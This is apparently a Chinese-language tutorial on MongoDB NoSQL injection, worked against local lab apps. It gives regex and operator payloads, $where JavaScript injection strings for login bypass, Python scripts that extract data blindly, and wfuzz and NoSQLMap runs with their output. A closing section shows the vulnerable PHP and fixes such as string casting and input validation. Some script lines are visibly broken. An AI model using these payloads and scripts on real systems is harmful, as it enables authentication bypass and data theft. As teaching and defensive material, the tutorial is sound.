在传统的SQL数据库中，带内数据提取漏洞通常会导致整个数据库被窃取。但在MongoDB中，由于它是一种非关系型数据库，且查询是针对特定集合执行的，因此攻击（通常）仅限于注入所作用的那个集合。

以下web应用带搜索功能我们可以尝试搜索其中一种推荐类型，查看会发送什么请求以及返回什么样的信息：

http://x.com?q=Keitt



我们可以看到，该搜索表单发送了一个 GET 请求，其中搜索查询以`?q=<search term>`的形式传入 URL。与上一节类似，这是经过 URL 编码的数据，因此请记住，我们要使用的任何 NoSQL 查询都必须按如下格式进行组织 `param[$op]=val` 

在服务器端，发出的请求很可能会查询数据库，以查找名称与 `$_GET['q']` 匹配的文档，如下所示：

```json
db.types.find({ name: $_GET['q']});
```

我们要列出集合中所有类型的信息，并且假设我们关于后端如何处理输入的设想是正确的，那么我们可以使用一个能匹配所有内容的 RegEx 查询，

`?q[$regex]=.*`

如下所示：

```json
db.types.find({
name: {$regex: /.*/}
});
```

发送新请求后，我们应该能看到所有的详细信息都已列出。

还可以使用以下的方案

`name: {$ne: 'doesntExist'}` : 写一个**数据库里绝对不存在的名字**，那所有数据自然都满足「不等于它」，直接匹配**全部文档**

`name: {$gt: ''}` : 匹配 **名字 大于 空字符串** 的所有数据，只要名字里有任何字符（字母 / 数字），都比空字符串大，所以几乎匹配全部数据. 

`name: {$gte: ''}` :匹配 **名字 大于 / 等于 空字符串** 的所有数据

 `name: {$lt: '~'}` : 它会把**name 字段的第一个字符**和波浪号（~）做比较，如果字符比波浪号小就匹配成功。这种写法**并非永远有效**，但在这个场景里能用，原因是：**波浪号是 ASCII 码里最大的可打印字符**，而且我们确定集合里所有名称都由 ASCII 字符组成。

 `name: {$lte: '~'}` :  逻辑和上述相同，此外还会匹配名称以 ~ 开头的文档


## 3、盲数据提取

在接下来的两个小节中，我们将研究 MangoPost 这个网站。该网站存在盲 NoSQL 注入漏洞，我们将利用该漏洞来提取数据。

这个网页是一个简单的包裹追踪应用，你可以输入追踪编号来获取包裹的相关信息。



我们可以搜索一个已知的追踪号码（32A766??），并通过拦截请求来查看发送到服务器的内容以及我们接收到的各类信息。



该请求发送了我们输入的 trackingNum，除此之外没有其他内容。值得注意的是，此次发送的是 JSON 对象，而非前两个示例中的 URL 编码数据。



你可能会注意到，提交表单后页面不会刷新或跳转到任何位置。这是因为页面中有一段 JavaScript 脚本，它会将表单数据转换为 JSON 对象，通过 XMLHttpRequest 发送 POST 请求，然后更新页面中的 trinfo 元素。你可以按 CTRL-U 或前往查看页面来查看它。



我们知道在查询快递包裹时，trackingNum 是我们发送的唯一信息，因此可以假设后端执行的查询大致如下所示：

```json
db.tracking.find({ 
	trackingNum: <trackingNum from JSON>
});
```

这里的 NoSQL 注入漏洞应该已经很明显了。我们可以运用已学的技术来获取某个包的跟踪信息。

不过在本节中，我们的目标是**猜出具体的追踪编号 trackingNum**。因为返回结果里并不包含 trackingNum 本身，所以我们无法直接查到它。不过，我们可以发送一系列“真/假”请求，由服务器为我们进行判断。

举个例子，我们可以让服务器查询是否存在满足 `$ne: 'x'` 条件的运单号 `trackingNum`，

服务器就会返回对应的包裹信息。



同样，我们也可以让服务器查询是否存在满足 `$eq: 'x'` 的运单号，不出所料，服务器会告诉我们不存在这样的包裹。



到这一步我们已经清楚，可以向服务器询问**是否存在一个运单号 trackingNum 满足我们提供的任意查询条件**，而服务器基本上只会返回 “是” 或 “否”。

我们把这种机制称为 **oracle（预言机 / 盲注判断器）**。

虽然我们无法直接获取想要的信息（即 trackingNum），但可以通过提交各种查询条件，利用服务器的返回结果**间接泄露出真实数据**。

在本节的前面部分，我们使用了追踪号 32A766??。我们来看看如果我们不知道这个编号，它是如何被泄露的。

对于我们的第一个查询，我们可以发送 `{"trackingNum":{"$regex":"^.*"}}`，它会匹配所有文档。返回给我们的这条信息是寄给Franz Pflaumenbaum 的。集合（collection） 中可能存在多个包裹，因此为了确保我们获取的是同一个包裹的信息，我们会在服务器的响应中查找Franz Pflaumenbaum，以确定我们定位的是正确的包裹。



对于我们的下一个查询，我们将发送 `{"trackingNum":{"$regex":"^0.*"}}` 来尝试查看 trackingNum 是否以 0 开头。此查询返回“此追踪号不存在”，这意味着集合中没有以 0 开头的追踪号，因此我们可以排除这种情况。

接下来，我们将用1、2重复此操作，直到匹配到`{"trackingNum":{"$regex":"^3.*"}}`，该条件会返回弗朗茨的包裹信息。现在我们知道他的追踪号码以3开头。



我们来看第二个数字。请求 `{"trackingNum":{"$regex":"^30.*"}}` 返回“此追踪号不存在”，由此可知第二个数字不是0。我们可以继续尝试字符，直到输入 `{"trackingNum":{"$regex":"^32.*"}}` 时成功返回弗朗茨的包裹信息，这说明他的追踪号中第二个字符是2。



我们可以继续这个过程，直到整个包裹编号都被提取完毕。请注意，包裹编号不仅包含数字，还包含字母。正则表达式末尾添加了一个美元符号（$）来标记字符串的结束，因此在这种情况下，我们可以确认整个trackingNum都已被提取。




## 4.自动化盲数据提取

通过盲注手动提取数据很快就会变得繁琐。幸运的是，这一过程很容易实现自动化，我们来动手做吧。我们已经导出了弗朗茨包裹的追踪编号，因此本节我们将使用一个新的目标。有一个寄给 bmdyy 的包裹，其追踪编号为 HTB{...，我们将对其进行导出。



如果你已经了解一点 Python（3），那再好不过了，但即使你不了解，这一部分也足够简单，容易理解。

我们要做的第一件事是创建一个用于查询“oracle”的函数。

```python
import requests
import json
# Oracle
def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
	return "bmdyy" in r.text
```

此函数将向 /index.php 发送一个 POST 请求，并将 trackingNum 的值设置为我们想要的任意查询内容。随后它会检查响应是否包含文本 bmdyy，该文本表示我们的查询与目标包裹匹配成功。

我们可以使用一对[断言语句](https://www.tutorialspoint.com/python3/assertions_in_python.htm)来验证oracle函数是否按预期工作，这些断言语句会测试已知的答案。在这种情况下，我们知道不存在追踪号 X，因此可以验证当oracle函数发送包含 trackingNum: "X" 的请求时，会返回 False。此外，我们知道存在追踪号 HTB{.*，因此可以验证该oracle函数会返回 True。

```python
# Make sure the oracle is functioning correctly
assert (oracle("X") == False)
assert (oracle({"$regex": "HTB{.*"}) == True)
```

如果我们运行这段代码且所有设置都正确，应该不会有任何输出。如果出现了输出，那么你的代码中很可能存在拼写错误（就像这个例子里，把大写的 B 写成了小写的 b）：

```bash
python3 mangopost-exploit.py
Traceback (most recent call last):
File "/...SNIP.../mangopost-exploit.py", line 18, in <module>
assert (req({"$regex": "^HTb{.*"}) == True)
AssertionError
```

一旦我们准备好并验证了预言机函数能正常工作，就可以着手实际提取追踪号码了。

在本节中，我们可以假定追踪号符合以下格式：^HTB\{[0-9a-f]{32}\}$，也就是 HTB{ 后接 32 个 [0-9a-f] 范围内的字符，再以 } 结尾。了解这一点后，我们可以将搜索范围限定在这些字符上，从而大幅减少所需的请求次数。

```python
#!/usr/bin/python3
import requests
import json
# Oracle
def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
	return "bmdyy" in r.text

# Make sure the oracle is functioning correctly 
assert (oracle("X") == False) 
assert (oracle({"$regex": "^HTB{.*"}) == True)

# Dump the tracking number
trackingNum = "HTB{" # Tracking number is known to start with 'HTB{' 
for _ in range(32): # Repeat the following 32 times 
    for c in "0123456789abcdef": # Loop through characters [0-9a-f] 
        if oracle({"$regex": "^" + trackingNum + c}): # Check 
        	trackingNum += c # If it does, append character to trackingNum
            break # ... and break out of the loop
trackingNum += "}" # Append known '}' to end of tracking number 

# Make sure the tracking number is correct
assert (oracle(trackingNum) == True)
print("Tracking Number: " + trackingNum)
```


## 5、服务端 JavaScript 注入

NoSQL 独有的一种注入类型是 JavaScript 注入。这种攻击是指攻击者能让服务器在数据库的上下文中执行任意的 JavaScript 代码。当然，根据具体场景，JavaScript 注入可能是带内注入、盲注或外带注入。一个简单的例子是，某服务器使用 $where 查询来检查用户名/密码组合：

```js
...
.find({$where: "this.username == \"" + req.body['username'] + "\" &&
this.password == \"" + req.body['password'] + "\""});
...
```

 假设用户在登录框里输入了：

- 用户名：`admin`
- 密码：`123`

这 5 个部分拼合完毕后，最终生成了一个长长的字符串（注意内部保留了双引号）：
`"this.username == "admin" && this.password == "123""`

后端拼接好上面那个长字符串后，把它作为 `$where` 的值，发送给了 MongoDB：

```json
db.users.find({
    $where: 'this.username == "admin" && this.password == "123"'
})
```

> [!NOTE]
>
> `$where` 操作符允许你直接将一段 **JavaScript 代码字符串（或 JS 函数）** 传递给数据库引擎，并在服务器端对每一条数据执行这段代码。

在这种情况下，用户输入被直接用在由 `$where` 执行的 JavaScript 查询中，从而导致 **JavaScript 注入漏洞**。 攻击者在这里可以实施多种攻击。例如，为了绕过身份验证，他们可以在用户名和密码处提交 `" || ""=="`， 这样服务器就会执行如下查询： ``` db.users.find({$where: 'this.username == "" || ""=="" && this.password == "" || ""==""'}) ``` 该语句最终会**返回所有用户记录**，攻击者也就可以以其中某一用户的身份成功登录。


在本节中，我们将探讨第四个Web应用程序——MangoOnline。该应用程序存在服务器端JavaScript注入漏洞。

这个网站本身只是一个登录表单，没有其他可查看的内容。


### 5.1、身份绕过

我们可以用任意数据填写表单并拦截登录请求来仔细查看。该请求与身份验证绕过部分中 MangoMail 的请求类似。



然而，如果我们尝试之前的相同身份验证绕过方法，遗憾的是会发现没有一个能奏效。此时，我们可能需要检查是否有某些 SSJI 载荷可以生效，以防服务器在运行 `$where` 查询，其示例可能如下所示：

```json
db.users.find({
$where: 'this.username === "<username>" && this.password === "<password>"'
});

```

在这个示例中，我们可以将 username 设置为`" || true || ""=="`，这样无论 this.username 和 this.password 的值是什么，查询语句都将始终返回 True。

```json
db.users.find({
$where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
});
```

或者使用 `" || true || "` 以形成这样的查询：

```json
db.users.find({
$where: 'this.username === "" || true || "" && this.password === "<password>"‘
});
```

由于这只是一段待执行的 JavaScript 代码，我们可以通过浏览器的开发者工具控制台来验证该语句应始终返回 true：



不出所料，即使 this.username 和 this.password 未定义，该语句仍返回 True。确认这一点后，我们可以尝试使用这个“username”和任意密码登录，注意对必要字符进行 URL 编码。



这将使我们能够完全绕过身份验证，因为 $where 查询在所有文档上都返回了 True。


请注意，我们所登录的用户（无论匹配到哪个文档）的真实用户名不会显示，显示的是我们使用的 SSJI 有效载荷。


### 5.2、盲数据提取

所以我们证明了可以通过服务端JavaScript注入绕过身份验证，并且我们已经确定登录用户的用户名不会直接提供给我们，接下来我们就来提取这个信息！

执行此操作的步骤与“盲数据提取”和“自动化盲数据提取”部分中的步骤基本相同，只是语法不同。

作为第一个请求，我们可以使用有效载荷：`" || (this.username.match('^.*')) || ""=="`

来验证存在一个与 `^.*` 匹配的用户名。预期这会返回 true（让我们登录），因此这更像是一个健全性检查。



> [!WARNING]
>
> **必须**提前确认（或通过信息收集猜到）数据库的 BSON 文档里确实存在 `username` 这个键

接下来，我们可以通过类似这样的载荷来猜测用户名的第一个字符：

`" || (this.username.match('^a.*')) || ""=="`

如果不存在这样的用户名（就像 ^a.* 这种情况），应用将无法登录。



经过一番尝试，负载：

`" || (this.username.match('^H.*')) || ""=="`

 成功让我们登录，这意味着存在一个与 ^H.* 匹配的用户名。



继续执行这些步骤，我们就能获取整个用户名。

自动化脚本：

```python
#!/usr/bin/python3
import requests from urllib.parse import quote_plus
# Oracle (answers True or False)
num_req = 0
def oracle(r):
	global num_req
	num_req += 1
	r = requests.post(
        headers={"Content-Type":"application/x-www-form-urlencoded"}, 
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || "http://127.0.0.1/index.php",""=="'))
		)
	return "Logged in as" in r.text
# Ensure the oracle is working correctly 
assert (oracle('false') == False)
assert (oracle('true') == True)

# Dump the username ('regular' search)
num_req = 0 # Set the request counter to 0
username = "HTB{" # Known beginning of username 
i = 4 # Set i to 4 to skip the first 4 chars (HTB{) 
while username[-1] != "}": # Repeat until we dump '}' (known end of username)
	for c in range(32, 128): # Loop through all printable ASCII chars 
    	if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)): 
			username += chr(c) 
            break # And break the loop
	i += 1 # Increment the index counter
assert (oracle('this.username == `%s`' % username) == True) # Verify the 
username
print("---- Regular search ----") 
print("Username: %s" % username) 
print("Requests: %d" % num_req)
print()

# Dump the username (binary search)
num_req = 0 # Reset the request counter 
username = "HTB{" # Known beginning of username
i = 4 # Skip the first 4 characters (HTB{) 
while username[-1] != "}": # Repeat until we meet '}' aka end of username 
    low = 32 # Set low value of search area (' ') 
    high = 127 # Set high value of search area ('~') 
    mid = 0 
    while low <= high: 
        mid = (high + low) // 2 # Caluclate the midpoint of the search area
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # If ASCII value of username at index 'i' <midpoint, increase the lower boundary and repeat
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # If ASCII value of username at index 'i' >midpoint, decrease the upper boundary and repeat
        else:
            username += chr(mid) # If ASCII value is neither higher orlower than the midpoint we found the target value
            break # Break out of the loop
      i += 1 # Increment the index counter (start work on the nextcharacter)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```


## 6.自动化工具

### 6.1 基于字典的模糊测试

模糊测试是一种黑盒测试技术，测试人员会向程序中注入大量数据，以查明导致软件故障的原因。在NoSQL注入（NoSQLi）测试的场景中，我们会使用包含各类潜在NoSQL注入载荷的字典，来找出能让服务器做出不同响应的载荷，这就意味着注入攻击取得了成功。

模糊测试的效果在很大程度上取决于单词列表的选择。遗憾的是，针对 NoSQL 的公开单词列表数量并不多，但以下是几个可用的：

[seclists/Fuzzing/Databases/NoSQL.txt](seclists/Fuzzing/Databases/NoSQL.txt ) 

[nosqlinjection_wordlists/mongodb_nosqli.txt](nosqlinjection_wordlists/mongodb_nosqli.txt)

我们可以在 MangoPost 应用上使用 [wfuzz](https://github.com/xmendez/wfuzz) 来演示模糊测试。

```bash
wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u
http://127.0.0.1/index.php -d '{"trackingNum": FUZZ}'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://127.0.0.1/index.php
Total requests: 22
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000001: 200 0 L 6 W 35 Ch "true, $where: '1
== 1'"
000000008: 200 0 L 6 W 35 Ch "' } ],
$comment:'successful MongoDB injection'"
000000009: 200 0 L 6 W 35 Ch
"db.injection.insert({success:1});"
000000010: 200 0 L 6 W 35 Ch
"db.injection.insert({success:1});return 1;db.stores.mapReduce(function()
{ { emit(1,1"
000000003: 200 0 L 6 W 35 Ch "$where: '1 == 1'"
000000005: 200 0 L 6 W 35 Ch "1, $where: '1 ==
1'"
000000004: 200 0 L 6 W 35 Ch "', $where: '1 ==
1'"
000000006: 200 0 L 6 W 35 Ch "{ $ne: 1 }"
000000007: 200 0 L 6 W 35 Ch "', $or: [ {}, {
'a':'a"
000000002: 200 0 L 6 W 35 Ch ", $where: '1 ==
1'"
000000011: 200 0 L 6 W 35 Ch "|| 1==1"
000000013: 200 0 L 6 W 35 Ch "' &&
this.password.match(/.*/)//+%00"
000000016: 200 0 L 6 W 35 Ch
"'%20%26%26%20this.passwordzz.match(/.*/)//+%00"
000000019: 200 0 L 6 W 35 Ch "[$ne]=1"
000000020: 200 0 L 6 W 35 Ch "';sleep(5000);"
000000017: 200 0 L 6 W 35 Ch "{$gt: ''}"
000000018: 200 3 L 13 W 136 Ch "{"$gt": ""}"
000000015: 200 0 L 6 W 35 Ch
"'%20%26%26%20this.password.match(/.*/)//+%00"
000000014: 200 0 L 6 W 35 Ch "' &&
this.passwordzz.match(/.*/)//+%00"
000000022: 200 0 L 6 W 35 Ch "{$nin: [""]}}"
000000012: 200 0 L 6 W 35 Ch "' || 'a'=='a"
000000021: 200 0 L 6 W 35 Ch "';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);"
Total time: 0.036365
Processed Requests: 22
Filtered Requests: 0
Requests/sec.: 604.9728
```

使用参数 `-z`，我们指定了要使用的单词列表（本例中为 SecLists）；

使用参数 `-u` 指定了目标应用的 URL；

然后使用参数 `-d` 指定了需要发送的 POST 数据（本例中为包含追踪编号的 JSON 对象）。

我们在 POST 数据中没有填写追踪编号，而是放置了 FUZZ，这样在模糊测试时 Wfuzz 会用我们单词列表中的载荷替换该 FUZZ。

查看结果可以发现，{"$gt":""} 格外突出，因为它的响应大小为136字符，而其他所有响应均为35字符。这表明该特定负载导致服务器做出了不同的响应，我们应进一步手动重新发送该负载并查看结果。

### 6.2 NoSQLMap

NoSQLmap 是一款用于识别 NoSQL 注入漏洞的开源 Python 2 工具。我们可以通过运行以下命令来安装它（Docker 容器似乎无法正常使用）。

```bash
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
sudo apt install python2.7
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install couchdb
pip2 install --upgrade setuptools
pip2 install pbkdf2
pip2 install pymongo
pip2 install ipcalc
```

我们可以在 MangoMail 上演示这个工具。假设我们知道管理员的邮箱是 [email protected]，想要测试密码字段是否存在 NoSQL 注入漏洞。要进行这项测试，我们可以使用以下参数运行 NoSQLMap：

```bash
python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 --uri 
/index.php --httpMethod POST --postData email,[email protected],password,qwerty --injectedParameter 1 --injectSize 4 Web App Attacks (POST)
===============
Checking to see if site at 127.0.0.1:80/index.php is up...
App is up!
List of parameters: 1-password
2-email Injecting the password parameter...
Using [email protected] for injection testing.

Sending random parameter value...
Got response length of 1250.
No change in response size injecting a random parameter..

Test 1: PHP/ExpressJS != associative array injection
Successful injection!

Test 2: PHP/ExpressJS > Undefined Injection Successful injection! 
Test 3: $where injection (string escape)
Successful injection!

Test 4: $where injection (integer escape) 
Successful injection!

Test 5: $where injection string escape (single record)
Successful injection!

Test 6: $where injection integer escape (single record)
Successful injection!

Test 7: This != injection (string escape)
Successful injection!

Test 8: This != injection (integer escape)
Successful injection!
Exploitable requests:
{'password': "a'; return db.a.findOne(); var dummy='!", 'email': '[email {'email': '[email protected]', 'password[$gt]': ''} {'password': "a'; return db.a.find(); var dummy='!", 'email': '[email protected]', 'password[$gt]': ''} {'password': '1; return db.a.find(); var dummy=1', 'email': '[email protected]', 'password[$gt]': ''} {'email': '[email protected]', 'password[$ne]': '[email protected]'} protected]', 'password[$gt]': ''} {'password': '1; return db.a.findOne(); var dummy=1', 'email': '[email protected]', 'password[$gt]': ''} {'password': "a'; return this.a != '[email protected]'; var dummy='!", {'password': "1; return this.a != '[email protected]'; var dummy=1", 'email': '[email protected]', 'password[$gt]': ''}
'email': '[email protected]', 'password[$gt]': ''}
Possibly vulnerable requests:
Timing based attacks: String attack-Unsuccessful
Integer attack-Unsuccessful
```

--attack 2 用于指定一个Web攻击

--victim 127.0.0.1 用于指定IP地址

--webPort 80 用于指定端口

--uri /index.php 用于指定我们要向其发送请求的URL

--httpMethod POST 用于指定我们要发送 POST 请求

--postData email,[email protected],password,qwerty 用于指定我们要发送的两个参数 email 和 password，其默认值分别为 [email protected] 和 qwerty

--injectedParameter 1 用于指定我们要测试 password 参数

--injectSize 4 用于指定随机生成数据的默认大小

结果显示，多次请求下注入均成功，我们可以继续手动进行核查。想必你还记得前文提到的内容，我们刚刚发现了一处身份验证绕过漏洞！

### 6.3 Burp-NoSQLiScanner

Burp Suite Professional 有一款扩展程序，声称可用于扫描 NoSQL 注入漏洞。，或许可以尝试这款扩展程序（[GitHub 链接](https://github.com/matrix/Burp-NoSQLiScanner)、[BApp 商店链接](https://portswigger.net/bappstore/605a859f0a814f0cbbdce92bc64233b4)）


# 三、防范NoSQL注入漏洞

当用户输入在未经过适当清理的情况下被传入 NoSQL 查询时，就会出现 NoSQL 注入漏洞。我们来回顾一下上一部分讲到的四个示例

以芒果邮件（MangoMail）为例，其服务器端存在漏洞的代码是这样的：

```
<?php
// 判断请求方式是否为POST
if ($_SERVER['REQUEST_METHOD'] === "POST") {
    // 校验参数是否存在
    if (!isset($_POST['email'])) die("Missing `email` parameter");
    if (!isset($_POST['password'])) die("Missing `password` parameter");
    
    // 校验参数是否为空
    if (empty($_POST['email'])) die("`email` can not be empty");
    if (empty($_POST['password'])) die("`password` can not be empty");

    // 连接MongoDB数据库
    $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");

    // 构建查询条件（原代码此处拼接混乱，已修复）
    $filter = [
        "email" => $_POST['email'],
        "password" => $_POST['password']
    ];

    // 实例化查询对象
    $query = new MongoDB\Driver\Query($filter);

    // 执行查询：mangomail库 -> users集合
    $cursor = $manager->executeQuery('mangomail.users', $query);

    // 判断查询结果是否存在数据
    if (count($cursor->toArray()) > 0) {
        // 登录成功逻辑（原代码未展示完整）
    }
}
?>
```

我们可以看到，$_POST['email'] and $_POST['password'] 这个问题中的参数被直接传入查询数组且未经过净化处理，这导致了 NoSQL 注入漏洞，我们利用该漏洞成功绕过了身份验证。

MongoDB 是[强类型](https://www.techtarget.com/whatis/definition/strongly-typed)的，这意味着如果你传入一个字符串，MongoDB 会将其解释为字符串（1 不等于 "1"）。这与弱类型的 PHP（7.4）不同，PHP 会将 1 == "1" 判定为真。由于 email 和 password 都预期为字符串值，我们可以将用户输入强制转换为字符串，以避免传入任何数组类型的数据。

```php
$query = new MongoDB\Driver\Query(array("email" => strval($_POST['email']), "password" => strval($_POST['password'])));
```

现在，像 email[$ne]=x 这样的查询会被转换为“数组”，攻击将失效。

```bash
php > echo strval(array("op" => "val"));
PHP Notice: Array to string conversion in php shell code on line 1
Array

```

这本身就能阻止 NoSQL 注入攻击生效；不过，额外验证电子邮件格式是否正确也是个好主意（以避免未来出现漏洞/错误）。在 PHP 中，你可以这样实现：

```php
...
if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
// Invalid email
...
}
// Valid email
...
```

在后端，MangoPost 看起来略有不同，但问题和解决方案又是相同的。

```php
<?php
// 仅处理POST请求
if ($_SERVER['REQUEST_METHOD'] === "POST") {
    // 获取并解析JSON格式的请求体
    $json = json_decode(file_get_contents('php://input'));

    // 连接MongoDB数据库
    $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");

    // 构建查询条件：根据trackingNum查询
    $query = new MongoDB\Driver\Query([
        "trackingNum" => $json->trackingNum
    ]);

    // 执行查询（库：mangopost，集合：tracking）
    $cursor = $manager->executeQuery('mangopost.tracking', $query);
    $res = $cursor->toArray();

    // 判断查询结果
    if (count($res) > 0) {
        // 查到运单：输出收件人、地址、邮寄时间
        echo "Recipient: " . $res[0]->recipient . "\n";
        echo "Address: " . $res[0]->destination . "\n";
        echo "Mailed on: " . $res[0]->mailedOn . "\n";
    } else {
        // 未查到运单：输出提示
        echo "This tracking number does not exist\n";
    }
    
    // 终止脚本执行
    die();
}
?>
```

追踪编号很可能有其固定格式，因此除了这个转换操作外，我们或许还应该验证这一点。我们可以假设追踪编号可包含大小写字母、数字和花括号（/^[a-z0-9\{\}]+$/i）。我们可以编写一个正则表达式来匹配这种格式，并以此验证追踪编号：

```php
...
if (!preg_match('/^[a-z0-9\{\}]+$/i', $trackingNum)) {
// Invalid tracking number
...
}
// Valid tracking number
...

```

MangoSearch 中存在同样的问题——查询参数 `$_GET['q']` 未经净化就被传入查询数组，从而导致 NoSQL 注入漏洞。

```php
...
if (isset($_GET['q']) && !empty($_GET['q'])):
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$query = new MongoDB\Driver\Query(array("name" => $_GET['q']));
$cursor = $manager->executeQuery('mangosearch.types', $query);
$res = $cursor->toArray();
foreach ($res as $type) {
...
```

和 MangoMail 中的情况一样，name 的值应为字符串类型，因此我们可以将 $_GET['q'] 强制转换为字符串，以防范 NoSQL 注入漏洞。

```php
...
$query = new MongoDB\Driver\Query(array("name" => strval($_GET['q'])));
...
```

与前面三个示例不同，由于 MangoOnline 的漏洞并未涉及任何数组，因此直接转换为字符串的方法在此场景下无法生效。快速提醒一下，后端代码是这样的：

```php
if ($_SERVER['REQUEST_METHOD'] === "POST") {
$q = array('$where' => 'this.username === "' . $_POST['username'] . '"
&& this.password === "' . md5($_POST['password']) . '"');
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$query = new MongoDB\Driver\Query($q);
$cursor = $manager->executeQuery('mangoonline.users', $query);
$res = $cursor->toArray();
if (count($res) > 0) {
...

```

在这种情况下，最佳方案是将 MongoDB 查询转换为不执行 JavaScript 且不会引入新漏洞的形式。这种情况下，操作相当简单：

```php
if ($_SERVER['REQUEST_METHOD'] === "POST") {
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$query = new MongoDB\Driver\Query(array('username' =>
strval($_POST['username']), 'password' => md5($_POST['password'])));
...
```

根据 MongoDB 开发人员的说法，只有在无法通过其他任何方式表达查询时，才应使用 $where。如果你的项目中不使用任何用于评估 JavaScript 的查询，那么一个好的做法是完全禁用服务器端 JavaScript 评估，该功能默认处于启用状态
